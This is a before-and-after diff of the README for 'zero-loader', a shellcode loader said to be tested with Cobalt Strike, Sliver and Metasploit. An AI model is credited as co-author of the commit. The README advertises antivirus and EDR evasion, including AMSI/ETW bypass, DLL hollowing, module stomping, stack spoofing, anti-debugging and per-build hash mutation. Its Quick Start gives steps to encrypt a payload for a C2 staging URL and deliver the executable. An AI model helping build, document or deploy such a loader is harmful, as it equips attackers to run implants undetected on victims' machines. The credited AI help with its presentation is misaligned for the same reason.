

Before and after one commit to xAL6/zero-loader, a Markdown page: README.md, 3 parts joined by grey strips. Shown at 88% size. Drawn GitHub-style; folded sections open; blank space fills up the shorter version.

Commit message:
Redesign README: ASCII banner, dark badges, cleaner layout
Co-Authored-By: Claude Opus 4.6 <noreply@anthropic.com>

````diff
--- a/README.md
+++ b/README.md
@@ -19,7 +22,7 @@
 
 ---
 
-## Why
+*Every build produces a unique binary — nothing matches across compilations.*
 
-Most open-source loaders get flagged because they ship the same binary every time. **zero-loader** solves this — `Encrypt.py` regenerates all cryptographic material, and `Mutate.py` randomizes PE metadata. The result is a different hash on every single build.
+</div>
 
@@ -27,37 +30,35 @@ Most open-source loaders get flagged because they ship the same binary every tim
 
-## At a Glance
+## Overview
 
-```
-Encrypt.py                    zero-loader.exe                    Beacon
-───────────                   ───────────────                    ──────
-                              IAT Camouflage
-                              Anti-Analysis (PEB, RDTSC)
-                              Indirect Syscalls (gadget pool)
-                              Patchless AMSI/ETW (VEH + HW BP)
-LZNT1 compress ──┐            Key Recovery (brute-force)
-Chaskey-CTR enc  │──→ HTTPS → Download ──→ Decrypt ──→ Decompress
-Write Payload.h ─┘            Phantom Hollowing / Module Stomp
-                              Cleanup (VEH, DR regs, keys, URLs)
-                              Stack Spoof + Thread Pool Exec ──→ 🚀
-```
+Most loaders get flagged because they ship the same binary. **zero-loader** regenerates all cryptographic material on every build — keys, nonces, string encoding, PE metadata. No two compilations share a hash.
 
----
+**Tested with:** Cobalt Strike, Sliver, Adaptix C2, Metasploit
+
+<br/>
 
 ## Features
 
-<table>
-<tr><td><b>Indirect Syscalls</b></td><td>SSN extraction + hooked-stub fallback + randomized gadget pool (64 <code>syscall;ret</code> sites in ntdll, picked via RDTSC)</td></tr>
-<tr><td><b>Patchless AMSI/ETW</b></td><td>VEH + hardware breakpoints (DR0/DR1) via <code>NtContinue</code> — zero bytes modified, passes EDR integrity checks</td></tr>
-<tr><td><b>Phantom DLL Hollowing</b></td><td>NTFS transaction → shellcode in section → rollback. EDR sees legitimate DLL-backed memory</td></tr>
-<tr><td><b>Module Stomping</b></td><td>Fallback: overwrite signed DLL <code>.text</code> section. Memory attributed to Microsoft binary</td></tr>
-<tr><td><b>Call Stack Spoofing</b></td><td><code>call rbx</code> gadget injection + thread pool callback. All stack frames resolve to ntdll</td></tr>
-<tr><td><b>Chaskey-12 CTR</b></td><td>ARX cipher, pure ALU — no S-boxes, no lookup tables, no RC4 signatures, no advapi32</td></tr>
-<tr><td><b>LZNT1 Compression</b></td><td>Payload compressed before encryption, decompressed via <code>RtlDecompressBuffer</code></td></tr>
-<tr><td><b>Polymorphic Strings</b></td><td>4-byte rotating XOR, 25+ strings, keys regenerated every build</td></tr>
-<tr><td><b>PE Mutation</b></td><td>TimeDateStamp, Rich header, section padding, checksum — all randomized post-build</td></tr>
-<tr><td><b>W^X Memory</b></td><td><code>PAGE_EXECUTE_READ</code> by default. <code>RWX_SHELLCODE</code> flag for Go/Sliver</td></tr>
-<tr><td><b>Self-Signed Cert Bypass</b></td><td>MSDN retry pattern on same handle — works with Sliver, CS, Adaptix, etc.</td></tr>
-<tr><td><b>Post-Exec Cleanup</b></td><td>Removes VEH, clears DR0/DR1, wipes keys, URLs, nonces from memory</td></tr>
-</table>
+> **Evasion**
 
----
+| | |
+|:--|:--|
+| **Indirect Syscalls** | SSN extraction from ntdll + hooked-stub fallback. 64 `syscall;ret` gadgets pooled, randomly selected per call via RDTSC |
+| **Patchless AMSI/ETW** | VEH + hardware breakpoints (DR0/DR1) via `NtContinue` — zero bytes modified, passes integrity checks |
+| **Phantom DLL Hollowing** | NTFS transaction → write to section → rollback. EDR sees legitimate DLL-backed memory |
+| **Module Stomping** | Overwrite signed DLL `.text` section. Memory attributed to a Microsoft binary |
+| **Call Stack Spoofing** | `call rbx` gadget in ntdll + thread pool trampoline. All frames resolve to legitimate modules |
+| **Anti-Analysis** | PEB debugger flag, NtGlobalFlag, CPU count, RDTSC timing delta |
+| **IAT Camouflage** | Dead-code benign imports the optimizer cannot eliminate |
+| **Post-Exec Cleanup** | Removes VEH, clears DR0/DR1, wipes keys/URLs/nonces before beacon runs |
+
+> **Crypto & Staging**
+
+| | |
+|:--|:--|
+| **Chaskey-12 CTR** | ARX block cipher — pure ALU, no S-boxes, no lookup tables, no RC4 signatures |
+| **LZNT1 Compression** | Compressed before encryption, decompressed at runtime via ntdll |
+| **Polymorphic Strings** | 4-byte rotating XOR across 25+ strings, keys regenerated every build |
+| **PE Mutation** | TimeDateStamp, Rich header, section padding, checksum — randomized post-build |
+| **HTTPS Staging** | Dynamic WinINet + `InternetCrackUrlA` + self-signed cert bypass |
+| **W^X Memory** | `PAGE_EXECUTE_READ` default. `RWX_SHELLCODE` flag for Go-based implants |
+
@@ -65,16 +67,16 @@ Write Payload.h ─┘            Phantom Hollowing / Module Stomp
 ## Quick Start
 
 ```bash
-# 1. Encrypt & compress shellcode
+# 1  Encrypt & compress shellcode
 python Encrypt.py payload.bin --url https://<C2>:<PORT>/payload.dat
 
-# 2. Build (assemble → compile → mutate)
+# 2  Build
 build.bat
 
-# 3. Upload data.enc to your staging server, deliver the exe
+# 3  Deploy — upload data.enc to staging server, deliver the exe
 ```
 
-Every re-run of step 1 + 2 produces a completely different binary.
+> Re-run steps 1 & 2 for a completely new binary.
 
 <details>
 <summary><b>Build Flags</b></summary>
````
Also changed, not shown: other parts of README.md (+86 -88 lines).
